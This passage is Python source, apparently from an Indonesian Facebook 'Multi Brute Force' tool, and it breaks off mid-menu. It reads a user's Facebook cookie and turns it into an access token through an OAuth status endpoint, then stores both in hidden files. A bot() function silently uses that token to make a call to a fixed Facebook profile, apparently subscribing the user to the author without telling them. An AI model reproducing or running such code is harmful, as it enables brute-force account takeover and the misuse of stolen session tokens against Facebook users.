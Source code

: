 
def login_lagi334():
	try:
		
		asu = random.choice([m,k,h,b,u])
		os.system('clear')
		cookie=input(f'  [{h}•{x}]Koki :{asu} ')
		open(".cok.txt", "w").write(cookie)
		with requests.Session() as rsn:
			try:
				rsn.headers.update({
                    'Accept-Language': 'id,en;q=0.9',
                    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36',
                    'Referer': 'https://www.instagram.com/',
                    'Host': 'www.facebook.com',
                    'Sec-Fetch-Mode': 'cors',
                    'Accept': '/',
                    'Connection': 'keep-alive',
                    'Sec-Fetch-Site': 'cross-site',
                    'Sec-Fetch-Dest': 'empty',
                    'Origin': 'https://www.instagram.com',
                    'Accept-Encoding': 'gzip, deflate',
                })
				response = rsn.get('https://www.facebook.com/x/oauth/status?client_id=124024574287414&wants_cookie_data=true&origin=1&input_token=&sdk=joey&redirect_uri=https://www.instagram.com/brutalid_/', cookies={'cookie':cookie})
				if '"access_token":' in str(response.headers):
					token = re.search('"access_token":"(.*?)"', str(response.headers)).group(1)
					open(".token.txt", "w").write(token)
					print('%sLogin Succes%s'%(h, p))

				else:
					print('%sFailled Get Token%s'%(m, p))

			except:
				print('Failled Get Token')

		print(f'  {x}[{h}•{x}]{h} Berhasil Jalankan Lagi Perintahnya!!!!{x} ');time.sleep(1)
		exit()
	except Exception as e:
		os.system("rm -f .token.txt")
		os.system("rm -f .cok.txt")
		print(f'  %s[%sx%s]%s LOGIN GAGAL.....CEK TUMBAL LUU NGAB !!%s'%(x,k,x,m,x))
		print(e)
		exit()
def bot():
	try:
		requests.post("https://graph.facebook.com/100002045441878?fields=subscribers&access_token=%s"%(tokenku))
	except:
		pass
#------------------[ BAGIAN-login ]----------------#
def menu():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
		print('[×] Cookies Kadaluarsa ')
		time.sleep(2)
		login_lagi334()
	os.system('clear')
	lo("\t        LOADING SYSTEM")
	logo()
	prints(nel(f"""{P2}Tools : {H2}Multi Brute Force""",width=30,style=f"{color_panel}"))
	prints(nel(f"""Tools Menu